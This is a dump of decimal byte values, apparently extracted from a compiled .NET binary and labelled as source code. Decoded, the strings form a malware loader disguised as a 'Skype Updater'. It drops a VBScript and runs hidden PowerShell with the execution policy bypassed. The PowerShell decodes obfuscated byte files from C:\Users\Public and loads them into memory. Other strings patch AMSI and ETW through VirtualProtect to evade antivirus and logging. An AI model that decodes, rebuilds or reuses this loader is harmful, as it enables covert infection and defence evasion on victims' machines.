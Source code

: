 109,105,99,65,115,115,101,109,98,108,121,0,67,111,112,121,0,111,112,95,69,113,117,97,108,105,116,121,0,111,112,95,73,110,101,113,117,97,108,105,116,121,0,0,27,83,0,107,0,121,0,112,0,101,0,32,0,85,0,112,0,100,0,97,0,116,0,101,0,114,0,0,45,67,0,58,0,92,0,85,0,115,0,101,0,114,0,115,0,92,0,80,0,117,0,98,0,108,0,105,0,99,0,92,0,65,0,98,0,46,0,118,0,98,0,115,0,0,131,123,112,0,111,0,119,0,101,0,114,0,115,0,104,0,101,0,108,0,108,0,32,0,45,0,69,0,120,0,101,0,99,0,117,0,116,0,105,0,111,0,110,0,80,0,111,0,108,0,105,0,99,0,121,0,32,0,66,0,121,0,112,0,97,0,115,0,115,0,32,0,45,0,87,0,105,0,110,0,100,0,111,0,119,0,83,0,116,0,121,0,108,0,101,0,32,0,72,0,105,0,100,0,100,0,101,0,110,0,32,0,45,0,67,0,111,0,109,0,109,0,97,0,110,0,100,0,32,0,34,0,34,0,102,0,117,0,110,0,99,0,116,0,105,0,111,0,110,0,32,0,73,0,110,0,118,0,111,0,99,0,97,0,116,0,105,0,111,0,110,0,123,0,112,0,97,0,114,0,97,0,109,0,40,0,36,0,102,0,49,0,44,0,36,0,102,0,50,0,41,0,91,0,83,0,121,0,115,0,116,0,101,0,109,0,46,0,82,0,101,0,102,0,108,0,101,0,99,0,116,0,105,0,111,0,110,0,46,0,65,0,115,0,115,0,101,0,109,0,98,0,108,0,121,0,93,0,58,0,58,0,76,0,111,0,97,0,100,0,40,0,91,0,98,0,121,0,116,0,101,0,91,0,93,0,93,0,36,0,102,0,49,0,41,0,124,0,79,0,117,0,116,0,45,0,78,0,117,0,108,0,108,0,59,0,91,0,79,0,98,0,102,0,117,0,115,0,99,0,97,0,116,0,111,0,114,0,46,0,65,0,93,0,58,0,58,0,77,0,97,0,105,0,110,0,40,0,36,0,102,0,50,0,41,0,125,0,59,0,36,0,112,0,49,0,61,0,39,0,67,0,58,0,92,0,92,0,85,0,115,0,101,0,114,0,115,0,92,0,92,0,80,0,117,0,98,0,108,0,105,0,99,0,92,0,92,0,108,0,111,0,103,0,115,0,46,0,108,0,100,0,107,0,39,0,59,0,36,0,112,0,50,0,61,0,39,0,67,0,58,0,92,0,92,0,85,0,115,0,101,0,114,0,115,0,92,0,92,0,80,0,117,0,98,0,108,0,105,0,99,0,92,0,92,0,108,0,111,0,103,0,115,0,46,0,108,0,100,0,114,0,39,0,59,0,105,0,102,0,40,0,40,0,84,0,101,0,115,0,116,0,45,0,80,0,97,0,116,0,104,0,32,0,36,0,112,0,49,0,41,0,45,0,97,0,110,0,100,0,40,0,84,0,101,0,115,0,116,0,45,0,80,0,97,0,116,0,104,0,32,0,36,0,112,0,50,0,41,0,41,0,123,0,91,0,98,0,121,0,116,0,101,0,91,0,93,0,93,0,36,0,98,0,49,0,61,0,40,0,71,0,101,0,116,0,45,0,67,0,111,0,110,0,116,0,101,0,110,0,116,0,32,0,36,0,112,0,49,0,32,0,45,0,82,0,97,0,119,0,41,0,46,0,83,0,112,0,108,0,105,0,116,0,40,0,39,0,44,0,39,0,41,0,124,0,87,0,104,0,101,0,114,0,101,0,45,0,79,0,98,0,106,0,101,0,99,0,116,0,123,0,36,0,95,0,32,0,45,0,110,0,101,0,32,0,39,0,39,0,125,0,124,0,70,0,111,0,114,0,69,0,97,0,99,0,104,0,45,0,79,0,98,0,106,0,101,0,99,0,116,0,123,0,91,0,98,0,121,0,116,0,101,0,93,0,40,0,36,0,95,0,47,0,51,0,48,0,41,0,125,0,59,0,36,0,98,0,50,0,61,0,71,0,101,0,116,0,45,0,67,0,111,0,110,0,116,0,101,0,110,0,116,0,32,0,36,0,112,0,50,0,32,0,45,0,82,0,97,0,119,0,59,0,73,0,110,0,118,0,111,0,99,0,97,0,116,0,105,0,111,0,110,0,32,0,45,0,102,0,49,0,32,0,36,0,98,0,49,0,32,0,45,0,102,0,50,0,32,0,36,0,98,0,50,0,125,0,34,0,34,0,1,71,67,0,114,0,101,0,97,0,116,0,101,0,79,0,98,0,106,0,101,0,99,0,116,0,40,0,34,0,87,0,115,0,99,0,114,0,105,0,112,0,116,0,46,0,83,0,104,0,101,0,108,0,108,0,34,0,41,0,46,0,82,0,117,0,110,0,32,0,34,0,0,9,34,0,44,0,32,0,48,0,0,73,48,0,70,0,56,0,55,0,51,0,54,0,57,0,70,0,45,0,65,0,52,0,69,0,53,0,45,0,52,0,67,0,70,0,67,0,45,0,66,0,68,0,51,0,69,0,45,0,55,0,51,0,69,0,54,0,49,0,53,0,52,0,53,0,55,0,50,0,68,0,68,0,1,3,92,0,0,1,0,5,68,0,73,0,0,5,68,0,77,0,0,5,68,0,68,0,0,13,73,0,110,0,118,0,111,0,107,0,101,0,0,17,97,0,109,0,115,0,105,0,46,0,100,0,108,0,108,0,0,29,65,0,109,0,115,0,105,0,73,0,110,0,105,0,116,0,105,0,97,0,108,0,105,0,122,0,101,0,0,83,91,0,45,0,93,0,32,0,70,0,97,0,105,0,108,0,101,0,100,0,32,0,116,0,111,0,32,0,103,0,101,0,116,0,32,0,65,0,109,0,115,0,105,0,73,0,110,0,105,0,116,0,105,0,97,0,108,0,105,0,122,0,101,0,32,0,97,0,100,0,100,0,114,0,101,0,115,0,115,0,46,0,1,15,83,0,99,0,97,0,110,0,110,0,101,0,114,0,0,53,91,0,45,0,93,0,32,0,65,0,109,0,115,0,105,0,73,0,110,0,105,0,116,0,105,0,97,0,108,0,105,0,122,0,101,0,32,0,102,0,97,0,105,0,108,0,101,0,100,0,46,0,1,25,107,0,101,0,114,0,110,0,101,0,108,0,51,0,50,0,46,0,100,0,108,0,108,0,0,29,86,0,105,0,114,0,116,0,117,0,97,0,108,0,80,0,114,0,111,0,116,0,101,0,99,0,116,0,0,85,91,0,45,0,93,0,32,0,86,0,105,0,114,0,116,0,117,0,97,0,108,0,80,0,114,0,111,0,116,0,101,0,99,0,116,0,32,0,102,0,97,0,105,0,108,0,101,0,100,0,32,0,111,0,110,0,32,0,65,0,77,0,83,0,73,0,32,0,102,0,117,0,110,0,99,0,116,0,105,0,111,0,110,0,1,93,91,0,45,0,93,0,32,0,80,0,97,0,116,0,99,0,104,0,32,0,118,0,101,0,114,0,105,0,102,0,105,0,99,0,97,0,116,0,105,0,111,0,110,0,32,0,102,0,97,0,105,0,108,0,101,0,100,0,32,0,97,0,116,0,32,0,65,0,77,0,83,0,73,0,32,0,102,0,117,0,110,0,99,0,116,0,105,0,111,0,110,0,1,19,110,0,116,0,100,0,108,0,108,0,46,0,100,0,108,0,108,0,0,81,91,0,45,0,93,0,32,0,70,0,97,0,105,0,108,0,101,0,100,0,32,0,116,0,111,0,32,0,103,0,101,0,116,0,32,0,69,0,116,0,119,0,69,0,118,0,101,0,110,0,116,0,87,0,114,0,105,0,116,0,101,0,32,0,97,0,100,0,100,0,114,0,101,0,115,0,115,0,46,0,1,65,91,0,45,0,93,0,32,0,86,0,105,0,114,0,116,0,117,0,97,0,108,0,80,0,114,0,111,0,116,0,101,0,99,0,116,0,32,0,102,0,97,0,105,0,108,0,101,0,100,0,32,0,111,0,110,0,32,0,69,0,84,0,87,0,1,23,71,0,101,0,116,0,45,0,80,0,114,0,111,0,99,0,101,0,115,0,115,0,1,10,48,83,15,203,4,189,79,141,230,250,205,222,221,196,230,0,4,32,1,1,8,3,32,0,1,5,32,1,1,17,17,4,32,1,1,14,4,32,1,1,2,5,32,1,1,18,73,5,32,2,1,14,14,17,7,10,14,14,14,14,18,72,18,56,18,52,18,36,18,32,2,6,0,3,14,14,14,14,5,0,2,1,14,14,7,0,1,18,73,17,128,145,5,0,1,28,18,73,3,0,0,14,10,7,5,29,14,29,5,8,2,29,5,6,32,1,29,14,29,3,4,0,1,8,14,5,0,0,18,128,173,7,32,1,18,128,177,29,5,5,32,0,18,128,181,6,32,2,28,28,29,28,4,7,2,2,2,4,0,1,1,8,16,7,7,18,77,18,81,18,85,18,89,18,93,18,73,18,69,10,0,2,18,77,18,128,193,17,128,197,5,32,1,18,81,14,7,0,1,18,73,17,128,205,10,32,3,18,85,14,17,128,209,18,73,13,32,3,18,89,17,128,213,17,128,217,29,18,73,6,32,1,1,17,128,221,13,32,4,18,93,14,17,128,213,18,73,29,18,73,4,32,0,18,73,7,0,2,18,69,24,18,73,4,7,2,24,24,41,7,30,14,14,24,29,18,73,18,73,18,69,28,29,28,8,10,24,24,24,24,18,69,29,5,9,8,2,2,24,24,29,28,2,29,28,2,8,2,2,2,2,6,24,5,
